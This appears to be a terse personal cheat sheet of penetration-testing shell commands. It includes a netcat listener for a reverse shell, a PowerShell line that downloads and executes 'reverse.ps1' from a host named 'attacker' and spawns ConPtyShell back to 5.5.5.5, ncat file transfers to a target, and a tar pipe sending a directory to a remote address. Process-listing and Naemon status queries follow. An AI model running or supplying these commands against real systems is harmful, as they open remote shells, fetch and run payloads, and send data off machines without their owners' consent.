    A-linux: stty raw -echo; (stty size; cat) | nc -lvnp 1337 -s target.com
    T-win: IEX(IWR http://attacker/reverse.ps1 -UseBasicParsing); Invoke-ConPtyShell 5.5.5.5 1337
    
    lsof -i :1337
    kill -9 1337
    
    ncat --ssl -l -p 33445
    ncat --ssl target.com 33445
    
    Linux: echo 'echo $0 | pwd | id | uname -a' > A_txt.txt
    Linux: ncat --send-only -lp 33445 < A_txt.txt
    Target: ncat --recv-only 5.5.5.5 33445 > A_txt.txt 
    Target: cat A_txt.txt
     
    tar cfp - pwd | compress -c | nc -w 3 192.168.1.34 51515
    
    #view other tty2  :
      ps -t 2
    
    #view group root  : 
      ps -G root
    
    #view background process cmd   :
      ps -p PID -ue
      ps -p PID -uge 
      ps -p PID -ufe 
      ps -gfe
      
      echo -e "GET status\nColumns: livestatus_version" | socat STDIO UNIX:/run/naemon/live
      
      
      
